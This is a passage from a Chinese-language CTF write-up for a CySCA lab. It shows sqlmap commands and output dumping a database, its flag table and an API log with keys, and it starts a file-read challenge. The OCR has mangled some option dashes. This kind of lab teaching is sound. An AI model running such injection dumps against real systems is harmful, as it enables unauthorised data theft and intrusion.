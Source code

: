 现在我们确认了sqlmap和burp都正确配置了，接下来就可以把库拖下来了。

```
#> sqlmap ­r /root/sql­web3­headers ­­proxy=http://localhost:8080 ­p comment_id
­­current­db
current database:    'cysca'

#> sqlmap ­r /root/sql­web3­headers ­­proxy=http://localhost:8080 ­p comment_id ­D
cysca ­­tables
Database: cysca

#> sqlmap ­r /root/sql­web3­headers
[5 tables]
+­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­---------------------------------------+
| user                                  |
| blogs                                 |
| comments                              |
| flag                                  |
| rest_api_log                          |
+­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­---------------------------------------+

#> sqlmap ­r /root/sql­web3­headers ­­proxy=http://localhost:8080 ­p comment_id ­D
cysca ­T flag ­­dump
[1 entry]
+­­­­­­­­­­­­­­­­­­­­­­----------------------+
| flag                 |
+­­­­­­­­­­­­­­­­­­­­­­----------------------+
| CeramicDrunkSound667 |
+­­­­­­­­­­­­­­­­­­­­­­----------------------+

```

flag: CeramicDrunkSound667

0x04 第四题:Hypertextension
------------------------

* * *

说明：

在缓存控制面板里面找到flag。

解题:

控制面板是REST API的形式，在说明文档里面写了这个API有添加文件名然后读取文件内容的功能，也许我们能用这个功能来读取PHP源码?

首先需要找到API key，在上一题里似乎数据库中有个表名叫rest_api_log,我们用SQLMAP把表拖下来看看:

```
#> sqlmap ­r /root/sql­web3­headers ­­proxy=http://localhost:8080 ­p comment_id ­D cysca ­T rest_api_log ­­dump
Database: cysca
Table: rest_api_log
[4 entries] +­­­­+­­­­­­­­+­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­ ­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­+­­­­­­­­­­­­­­­­­ ­+­­­­­­­­­­­­­­­­­­­­­+­­­­­­­­­­­­­­­­­­­­­­­­­­­­­+
| id | method | params
| api_key | created_on | request_uri | +­­­­+­­­­­­­­+­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­ ­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­+­­­­­­­­­­­­­­­­­ ­+­­­­­­­­­­­­­­­­­­­­­+­­­­­­­­­­­­­­­­­­­­­­­­­­­­­+
|1 |POST | contenttype=application%2Fpdf&filepath=.%2Fdocuments%2FTop_4_Mitigations.pdf&api_s ig=235aca08775a2070642013200d70097a | b32GjABvSf1Eiqry | 2014­02­21 09:27:20 | \\/api\\/documents |
|2 |GET |_url=%2Fdocuments&id=2
| NULL
|3 |POST | contenttype=text%2Fplain&filepath=.%2Fdocuments%2Frest­api.txt&api_sig=95a0e7dbe06 fb7b77b6a1980e2d0ad7d | b32GjABvSf1Eiqry | 2014­02­21 11:54:31 | \\/api\\/documents |
```